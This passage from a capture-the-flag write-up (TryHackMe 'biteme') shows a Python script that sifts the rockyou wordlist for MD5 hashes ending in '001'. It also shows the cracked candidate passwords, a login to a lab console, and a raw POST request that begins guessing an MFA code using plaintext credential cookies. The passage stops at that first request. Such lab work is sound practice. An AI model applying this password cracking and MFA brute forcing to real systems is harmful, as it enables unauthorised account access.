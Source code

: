 ```python
import hashlib

def hash_md5(word):
    hash_object = hashlib.md5(f"{word}".encode('utf-8'))	# encode and hash word
    hexhash = hash_object.hexdigest()	# give us the hexdigest of hash
    if hexhash.endswith("001"):
        print(f"Found password: {word}")

with open("/usr/share/wordlists/rockyou.txt" , "r") as file:	# harcoded rockyou path, change as necessary
    for line in file:	# go through wordlist line by line
        for word in line.split():
            hash_md5(word)	# launch function
``` 

When the code above is ran with `python3`, we get a bunch of passwords we can use:

```zsh
┌──(lassi㉿kali)-[~/tryhackme/biteme]
└─$ python3 001.py 
Found password: violet
Found password: gymnastics
Found password: chingy
Found password: sugarplum
Found password: raiden
Found password: 122187
Found password: stokes
Found password: 080884
Found password: 021105
Found password: BLONDIE
Found password: flordeliza
Found password: BABYFACE
<snipped for space>
``` 

"`BABYFACE`" seems like a cool password, let's use that. Going back to `http://10.10.21.12/console/` now that we have the username and password, only thing left to prove is that we're not robots! That can be surprisingly hard.

![image](https://user-images.githubusercontent.com/77704710/158025113-4c65ae5e-1817-419e-a7a9-d11292667eb0.png)

After logging in, we're met with an **MFA** authentication screen. 

![image](https://user-images.githubusercontent.com/77704710/158025117-5daab631-a01c-4f78-8598-a0b954cad65d.png)

How would we get through this? It looks like the credentials we supplied before are saved as cookies (in plaintext no less, come on Jason!), and there's no more **CAPTCHAs** for the **MFA** code.

```http
POST /console/mfa.php HTTP/1.1
Host: 10.10.21.12
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 9
Origin: http://10.10.21.12
Connection: close
Referer: http://10.10.21.12/console/mfa.php
Cookie: PHPSESSID=ng75estd5tfgpn0k8je4sqi77m; user=jason_test_account; pwd=BABYFACE
Upgrade-Insecure-Requests: 1

code=1234
``` 
